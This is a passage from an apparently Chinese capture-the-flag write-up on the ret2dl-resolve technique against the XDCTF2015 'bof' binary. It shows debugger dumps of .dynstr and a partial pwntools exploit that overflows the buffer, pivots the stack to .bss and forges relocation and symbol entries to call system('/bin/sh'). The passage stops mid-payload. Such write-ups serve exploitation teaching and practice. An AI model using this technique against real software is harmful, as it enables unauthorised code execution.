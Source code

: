 ```
0x8048238:      0x4c    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x8048240:      0x00    0x00    0x00    0x00    0x12    0x00    0x00    0x00
```
可以发现`Elf32_Word st_name=0x4c`，也就是说 `.dynstr+04c`就是字符串write的地址.

```
pwndbg> x /s 0x08048278+0x4c
0x80482c4:      "write"
```
然后我们就可以伪造`.st_name`，把write改成system...  
好长的ROP啊

## exp
“你猜怎么伪造`.st_name`”
```py
#!/usr/bin/python

from pwn import *
elf = ELF('bof')
offset = 112
read_plt = elf.plt['read']
write_plt = elf.plt['write']

ppp_ret = 0x08048619 # ROPgadget --binary bof --only "pop|ret"
pop_ebp_ret = 0x0804861b
leave_ret = 0x08048458 # ROPgadget --binary bof --only "leave|ret"

stack_size = 0x800
bss_addr = 0x0804a040 # readelf -S bof | grep ".bss"
base_stage = bss_addr + stack_size

r = process('./bof')

r.recvuntil('Welcome to XDCTF2015~!\n')
payload = 'A' * offset
payload += p32(read_plt) # 读100个字节到base_stage
payload += p32(ppp_ret)
payload += p32(0)
payload += p32(base_stage)
payload += p32(100)
payload += p32(pop_ebp_ret) # 把base_stage pop到ebp中
payload += p32(base_stage)
payload += p32(leave_ret) # mov esp, ebp ; pop ebp ;将esp指向base_stage
r.sendline(payload)

cmd = "/bin/sh"
plt_0 = 0x08048380
rel_plt = 0x08048330
index_offset = (base_stage + 28) - rel_plt
write_got = elf.got['write']
dynsym = 0x080481d8
dynstr = 0x08048278
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf) # 这里的对齐操作是因为dynsym里的Elf32_Sym结构体都是0x10字节大小
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10 # 除以0x10因为Elf32_Sym结构体的大小为0x10，得到write的dynsym索引号
r_info = (index_dynsym << 8) | 0x7
fake_reloc = p32(write_got) + p32(r_info)
st_name = 0x4c
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
payload2 += p32(plt_0)
```